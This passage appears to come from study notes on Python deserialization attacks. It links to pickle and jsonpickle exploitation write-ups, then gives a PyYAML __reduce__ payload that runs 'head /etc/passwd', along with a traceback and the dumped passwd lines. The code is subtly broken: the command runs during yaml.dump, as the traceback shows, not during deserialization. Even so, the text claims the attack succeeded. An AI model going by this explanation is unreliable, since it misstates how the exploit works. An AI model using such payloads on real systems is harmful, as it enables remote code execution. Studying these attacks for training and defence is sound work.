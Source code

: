 Some good content covering attacks for `JSONPickle` and `Pickle` are:

- [https://davidhamann.de/2020/04/05/exploiting-python-pickle/](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
- [https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)

* * *

## YAML (PyYAML, ruamel.yaml)

These libraries serialize data into [YAML](https://yaml.org/) format. Once again, we can serialize an object with a `__reduce__` function to get command execution. The serialized data will be in YAML format this time. [Ruamel.yaml](https://pypi.org/project/ruamel.yaml/) is based on [PyYAML](https://pyyaml.org/), so the same attack technique works for both:

```python
import yaml
import subprocess

class RCE():
  def __reduce__(self):
    return subprocess.Popen(["head", "/etc/passwd"])

# Serialize (Create the payload)
exploit = yaml.dump(RCE())
print(exploit)

# Deserialize (vulnerable code)
yaml.load(exploit)

```

Running the example script will demonstrate command execution. There is a long error message. However, the command is still run, so our goal is met.

```shell
python3 yaml-example.py

Traceback (most recent call last):
  File "/home/kali/Pen/htb/academy/work/Introduction-to-Deserialization-Attacks/3-Exploiting-Python-Deserialization/yaml-example.py", line 11, in <module>
    exploit = yaml.dump(RCE())
  File "/home/kali/.local/lib/python3.10/site-packages/yaml/__init__.py", line 290, in dump
    return dump_all([data], stream, Dumper=Dumper, **kwds)
  File "/home/kali/.local/lib/python3.10/site-packages/yaml/__init__.py", line 278, in dump_all
    dumper.represent(data)
  File "/home/kali/.local/lib/python3.10/site-packages/yaml/representer.py", line 27, in represent
    node = self.represent_data(data)
  File "/home/kali/.local/lib/python3.10/site-packages/yaml/representer.py", line 52, in represent_data
    node = self.yaml_multi_representers[data_type](self, data)
  File "/home/kali/.local/lib/python3.10/site-packages/yaml/representer.py", line 322, in represent_object
    reduce = (list(reduce)+[None]*5)[:5]
TypeError: 'Popen' object is not iterable
root:x:0:0:root:/root:/usr/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```